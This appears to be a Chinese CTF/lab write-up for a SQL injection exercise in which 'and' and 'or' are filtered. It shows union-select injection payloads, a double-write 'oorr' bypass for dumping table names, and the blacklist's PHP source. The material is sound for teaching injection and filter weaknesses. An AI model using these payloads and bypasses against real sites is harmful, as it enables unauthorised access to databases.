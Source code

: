 这题and or被过滤了。

去搜了下过滤方法。





我先测报错

?id=1'

有报错

测试

```
?id='1 --+
无报错
```

,为单引号闭合的字符型注入



order by测列数及回显。

```
?id=1' oorrdey by 4 --+
报错
再测3
成功
```





下面用相同的步骤（这里我以为和23题相同，最后用了‘3来闭合，不过没关系，如果不用’3,添加--+即可）

```
?id=-1' union select 1,database(),3 --+
```



```
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) ,'3
```

 结果，没想到，information_schema这个表名被过滤了，变成了infmation，**or**没了

```
Hint: Your Input is Filtered with following result: -1' union select 1,(select group_concat(table_name) from infmation_schema.tables where table_schema=database()) ,'3
```



这里我采用的是oorr双写来绕过

```
?id=-1' union select 1,(select group_concat(table_name) from inforoorrmation_schema.tables where table_schema=database()) ,'3
```

成功爆出表，

下面步骤不再赘述





blacklist源码

```
function blacklist($id)
{
      $id= preg_replace('/or/i',"", $id);      //strip out OR (non case sensitive)
      $id= preg_replace('/AND/i',"", $id);      //Strip out AND (non case sensitive)
	
      return $id;
}
```





